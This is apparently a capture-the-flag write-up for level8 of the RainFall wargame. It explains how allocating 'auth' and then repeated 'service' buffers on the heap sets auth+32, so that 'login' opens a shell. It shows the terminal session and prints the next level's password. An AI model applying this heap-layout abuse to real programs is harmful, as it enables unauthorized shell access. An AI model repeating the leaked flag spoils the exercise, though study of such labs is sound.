 ### Brief
The program only contains the `main` function.
There is a buffer of size 128 which is filled with `fgets` function and the correct size.
No buffer overflow can be used here.
The program consist of using `strncmp` on what is copied onto the buffer to perform certain actions

### Exploit
There is not really such thing as an exploit here, you just need to understand what the program actually do.
It copies 128 bytes of the stdin on the buffer.
It performs actions depending what is on the buffer:
- `auth `: allocate the `auth` pointer
- `reset`: free the `auth` pointer
- `service`: dup the buffer onto a `service` pointer
- `login`: open a shell if `auth + 32 != 0` 

The goal is to first allocate the `auth` pointer.
Then use the `service` command to allocate pointer until it overwrite `auth + 32`.
Then use the `login` command.

### Get access
```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
# Allocate the `auth` pointer
auth 
0x804a008, (nil) 
# Allocate the `service` pointer
service
0x804a008, 0x804a018 
# `service` address is 0x10 higher that `auth`
service
0x804a008, 0x804a028 
# `service` address is 0x20 higher that `auth`
# So we can use `login`
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```